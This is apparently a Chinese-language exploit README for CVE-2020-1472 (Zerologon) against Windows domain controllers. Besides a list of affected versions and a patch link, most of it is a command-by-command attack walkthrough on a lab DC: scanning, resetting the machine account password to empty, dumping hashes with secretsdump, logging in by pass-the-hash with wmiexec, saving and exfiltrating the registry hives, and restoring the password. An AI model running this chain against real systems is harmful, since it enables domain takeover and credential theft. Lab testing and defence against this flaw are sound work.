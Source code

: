 ## CVE-2020-1472

#### 描述

攻击者使用Netlogon远程协议（MS-NRPC）建立与域控制器的易受攻击的Netlogon安全通道连接时，将存在特权提升漏洞。攻击者可以利用漏洞进行远程修改密码等操作

#### 影响版本

| Product                                                      | Version | Update | Edition | Tested             |
| :----------------------------------------------------------- | :------ | ------ | ------- | ------------------ |
| Windows Server 2008 R2 for x64-based Systems Service Pack 1  |         |        |         | :heavy_check_mark: |
| Windows Server 2008 R2 for x64-based Systems Service Pack 1 (Server Core installation) |         |        |         | :heavy_check_mark: |
| Windows Server 2012                                          |         |        |         |                    |
| Windows Server 2012 (Server Core installation)               |         |        |         |                    |
| Windows Server 2012 R2                                       |         |        |         |                    |
| Windows Server 2012 R2 (Server Core installation)            |         |        |         |                    |
| Windows Server 2016                                          |         |        |         |                    |
| Windows Server 2016 (Server Core installation)               |         |        |         |                    |
| Windows Server 2019                                          |         |        |         |                    |
| Windows Server 2019 (Server Core installation)               |         |        |         |                    |
| Windows Server, version 1903 (Server Core installation)      |         |        |         |                    |
| Windows Server, version 1909 (Server Core installation)      |         |        |         |                    |
| Windows Server, version 2004 (Server Core installation)      |         |        |         |                    |

#### 修复补丁

```
https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-1472
```

#### 利用方式

> 注意：EXP脚本会重置域控机器的密码！！！不要瞎鸡儿乱用！！！！！！！！

测试机器Windows Server 2008 R2 SP1 X64 ，并且设置环境为域控机器

![image-20201002201920794](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2020-1472_dc-server.png?raw=true)

由上图可知：

- 域为->ascotbe.com
- 计算机名为->dc
- 域控ip->192.168.183.171

使用前环境配置，需要Python3.7+的版本，如果之前有安装过`impacket`的python包的话（比如kali）需要卸载了在重新安装`0.9.21`这个版本的包，快捷语句`python3 -m pip install git+https://github.com/SecureAuthCorp/impacket`，下面是通用方法

```
python3 -m pip install -r Kernelhub.txt
#如果嫌弃下载慢项目上有下载好的解压后即可用
git clone --depth=1 https://github.com/SecureAuthCorp/impacket
```

> 扫描脚本

该脚本用于测试机器是否存在漏洞

```
#Usage: CVE-2020-1472_Scan.py <dc-name> <dc-ip>
python3 CVE-2020-1472_Scan.py dc 192.168.183.171
```

![image-20201002203037104](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2020-1472_scan.png?raw=true)

> 利用脚本

该脚本会使用后会把密码重置为空！！乱用容易对照成损失！！

```
#Usage: CVE-2020-1472_Exploit.py <dc-name> <dc-ip>
python3 CVE-2020-1472_Exploit.py dc 192.168.183.171
```

![image-20201002204223509](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2020-1472_exp.png?raw=true)

接着进入下载好的`impacket`项目，使用空密码登录

```
cd impacket/examples/
#Usage: secretsdump.py <dc>/<dc-name>\$@<dc-ip>
python3 secretsdump.py ascotbe.com/dc\$@192.168.183.171 -no-pass
```

![image-20201002203751057](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2020-1472_secretsdump.png?raw=true)

接着利用hash进行登录

```
#Usage: wmiexec.py -hashes <user-hash> <dc>/<user-name>@<dc-ip>
python3 wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:45280efa2300182b4f7fdc2cee182149  ascotbe.com/administrator@192.168.183.171
```

![image-20201002204817764](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2020-1472_wmiexec.png?raw=true)

> 还原密码

保存密码后下载到本地，接着删除域控上的文件

```
reg save HKLM\SYSTEM system.save
reg save HKLM\SAM sam.save
reg save HKLM\SECURITY security.save
get system.save
get sam.save
get security.save
del system.save
del sam.save
del security.save
```

![image-20201002205958192](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2020-1472_hash.png?raw=true)

接着进行解密

```
python3 secretsdump.py -sam sam.save -system system.save -security security.save LOCAL
```

![image-20201002210258903](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2020-1472_decrypt_hash.png?raw=true)

可以看到这是之前修改之前的密码，接着回到桌面使用脚本恢复密码

```
#Usage: CVE-2020-1472_RestoreOriginalPassword.py <dc-name> <dc-ip> <dc-original-hash>
python3 CVE-2020-1472_RestoreOriginalPassword.py dc 192.168.183.171 d4ac5a73fd3f13dfd9d6de036a9e99a2
```

![image-20201002212122966](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2020-1472_restore_original_password.png?raw=true)

#### 项目来源

- 扫描脚本:[SecuraBV](https://github.com/SecuraBV/CVE-2020-1472)
- 利用脚本:[dirkjanm](https://github.com/dirkjanm/CVE-2020-1472)
- 恢复脚本:[risksense](https://github.com/risksense/zerologon)